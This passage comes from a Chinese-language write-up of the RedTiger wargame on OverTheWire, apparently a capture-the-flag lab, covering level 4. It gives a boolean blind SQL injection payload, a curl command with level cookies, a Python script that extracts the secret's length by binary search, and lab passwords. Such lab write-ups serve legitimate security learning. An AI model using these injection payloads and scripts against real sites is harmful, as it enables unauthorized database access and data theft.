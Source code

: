 ```
print_r($payload2);
print '<br>';
$en_payload = encrypt($payload2);
print_r($en_payload);
print '<br>';

```

## level4

网站
```
curl "http://redtiger.labs.overthewire.org/level4.php" -H "Cookie: level4login=there_is_no_bug"
```

	Welcome to Level 4

	Target: Get the value of the first entry in table level4_secret in column keyword
	Disabled: like

从`table_leel4`表中的`keyword`列得到第一个值。
这道题的提示是盲注。
点击`Click me`，得到带有`?id=1`的新链接`https://redtiger.labs.overthewire.org/level4.php?id=1`。

正常页面显示`Query returned 1 rows. `。
注入`'`，新页面显示`Query returned 0 rows. `。说明这是错误结果。

利用`布尔盲注`，通过返回页面中`Query returned 1 rows. `的结果来筛选出目标结果。

```
and (select ascii(substr(keyword,1,1)) from level4_secret limit 0,1)<{1}
```

利用脚本来进行盲注很easy。但是需要提前把SQL语句测试准确，以免带来额外的调试。

先获取值的长度，再逐个获取字符。这里采用折半搜索。

```
import requests
import re
url_length="http://redtiger.labs.overthewire.org/level4.php?id=1 and (select length(keyword) from level4_secret limit 0,1)<{0}"

cookies={"level2login":"4_is_not_random",
         "level3login":"feed_your_cat_before_your_cat_feeds_you",
         "level4login":"there_is_no_bug"
        }
h=50
l=1
length=(l+h)/2
while l <= h:
    url = url_length.format(length)
    resp=requests.get(url, cookies=cookies)
    if resp.status_code != 200:
        print "status code error "
    text = resp.content
    if text.find('Query returned 1 rows.') != -1: 
        h = length-1
    else:
        l = length+1
    length =(h+l)/2

print 'length = ', length
```
